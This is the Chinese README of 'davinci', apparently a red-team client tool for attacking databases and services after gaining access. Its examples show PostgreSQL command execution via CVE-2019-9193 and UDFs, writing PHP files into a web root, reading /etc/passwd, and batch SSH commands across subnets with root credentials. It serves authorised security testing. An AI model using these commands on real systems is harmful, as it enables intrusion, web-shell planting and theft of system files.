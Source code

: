 # davinci

## 免责声明

本程序应仅用于授权的安全测试与研究目的。
由于传播、利用本工具而造成的任何直接或者间接的后果及损失，均由使用者负责，工具作者不为此承担任何责任。

## 介绍

davinci是一个多组件客户端命令行工具，利用golang的特性，可轻易编译出在各类操作系统和架构下的可执行文件，在各种环境下使用。

目前内置了下列组件的常见利用方式，包括信息收集、非交互式执行、交互式执行等：
- MySQL
- PostgreSQL
- Clickhouse
- GaussDB
- MongoDB
- Redis
- SSH
- Elasticsearch



## 编译方式

```
go env -w GOOS=$os
go env -w GOARCH=$arch
go build -ldflags "-w -s" -o bin/$name davinci.go
```

对于常见的平台已提供powershell脚本执行编译使用：
```
.\win_amd64.ps1
.\linux_amd64.ps1
```

你也可以直接使用release中编译好的可执行文件。



## 使用方式

```bash
# ./davinci --help
multi-component client,include  database, middleware, queue, etc.
used for red team simulation scenarios

Usage:
  davinci [command]

Available Commands:
  batch       batch execute
  clickhouse  clickhouse client
  completion  Generate the autocompletion script for the specified shell
  es          elasticsearch client
  gaussdb     gaussdb client
  help        Help about any command
  mongo       mongo client
  mysql       mysql client
  pgsql       pgsql client
  redis       redis client
  ssh         ssh client

Flags:
  -h, --help     help for davinci
      --no-log   not log output to file
      --silent   close info level output

Use "davinci [command] --help" for more information about a command.
```

每个组件均作为一个子命令来使用，几乎每个组件都至少会提供三种使用方式：
- exec : 非交互式执行单条命令
- shell : 进入交互式命令执行
- auto_gather: 自动化信息收集，实际上就是批量执行一组命令

注意：上述的"命令"是指组件自身的命令，例如对于MySQL来说是SQL，而对于SSH来说则是系统命令。

针对不同组件会提供特定的使用方式，包括但不限于：系统命令执行、文件读写等
```bash
Example:
  davinci pgsql exec        -H 192.168.1.2 -P 5432 -u postgres -p 123456 -c "select user;"
  davinci pgsql shell       -H 192.168.1.2 -P 5432 -u postgres -p 123456
  davinci pgsql auto_gather -H 192.168.1.2 -P 5432 -u postgres -p 123456
  davinci pgsql osshell     -H 192.168.1.2 -P 5432 -u postgres -p 123456 --cve-2019-9193
  davinci pgsql osshell     -H 192.168.1.2 -P 5432 -u postgres -p 123456 --cve-2019-9193 --no-interactive -c "whoami"
  davinci pgsql osshell     -H 192.168.1.2 -P 5432 -u postgres -p 123456 --udf
  davinci pgsql osshell     -H 192.168.1.2 -P 5432 -u postgres -p 123456 --udf --no-interactive -c "whoami"
  davinci pgsql osshell     -H 192.168.1.2 -P 5432 -u postgres -p 123456 --ssl_passpharse -c "whoami"
  davinci pgsql writefile   -H 192.168.1.2 -P 5432 -u postgres -p 123456 --lo_export -s ./eval.php -t /var/www/html/1.php
  davinci pgsql writefile   -H 192.168.1.2 -P 5432 -u postgres -p 123456 --copy_to -C "<?php phpinfo(); ?>" -t /var/www/html/1.php
  davinci pgsql readfile    -H 192.168.1.2 -P 5432 -u postgres -p 123456 --lo_import -t /etc/passwd
  davinci pgsql readfile    -H 192.168.1.2 -P 5432 -u postgres -p 123456 --pg_read -t /etc/passwd
  davinci pgsql readfile    -H 192.168.1.2 -P 5432 -u postgres -p 123456 --copy_from -t /etc/passwd --hex
  davinci pgsql mkdir       -H 192.168.1.2 -P 5432 -u postgres -p 123456 -t /etc/pg_dir
  davinci pgsql lsdir       -H 192.168.1.2 -P 5432 -u postgres -p 123456 -t /
```

各个组件的详细使用方式以及支持的功能，请参考：[wiki](https://github.com/Ape1ron/davinci/wiki)

此外，工具还提供了一个批量执行的功能
```bash
# ./davinci batch --help
batch execute:
  - export:      export execute config template
  - exec  :      batch execute

Usage:
  davinci batch [export|exec] [flags]

Flags:
  -b, --b64config string   the config base64 encode
  -f, --file string        config file (default ".davinci_batch.json")
  -h, --help               help for batch

Global Flags:
      --no-log   not log output to file
      --silent   close info level output
```
你可以通过`./davinci batch export`先导出一个模板，然后基于模板来制定批量执行的计划：
```bash
[
    {
        "cmd_type": "ssh",
        "hosts": [
            "127.0.0.1",
            "192.168.83.1/24",
            "192.168.83.1-20"
        ],
        "port": 22,
        "user": "root",
        "passwd": "123456",
        "cmds": [
            "ls -al /",
            "ifconfig"
        ]
    },
    {
        "cmd_type": "redis",
        "hosts": [
            "127.0.0.1"
        ],
        "port": 6379,
        "cmds": [
            "dbsize"
        ]
    }
] 
```
目前执行批量执行的组件包括：ssh、mysql、pgsql、gaussdb、clickhouse、redis、mongo
```bash
./davinci batch exec -f .davinci_batch-1.json
```



## 输出记录

默认情况下，会将所有输出记录到日志文件: `davinci_{y}-{m}-{d}.log`（除了交互式的ssh）

要关闭日志记录只需要使用`--no-log`选项即可。

此外，默认输出级别是info级别，会包含执行过程的详细信息，可以使用`--silent`选项来关闭详细输出，仅输出Warn级别以上的信息。



## todo

- oracle
- sqlserver
- etcd